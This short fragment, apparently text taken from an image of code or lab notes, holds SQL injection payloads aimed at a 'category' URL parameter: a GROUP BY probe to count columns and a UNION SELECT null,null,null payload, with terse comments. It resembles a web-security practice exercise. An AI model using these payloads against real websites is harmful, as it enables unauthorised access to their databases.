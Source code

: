 #determine the number of columns
category=Toys+%26+Games' group by 2-- #wtf?
category=Toys+%26+Games' union select null,null,null --
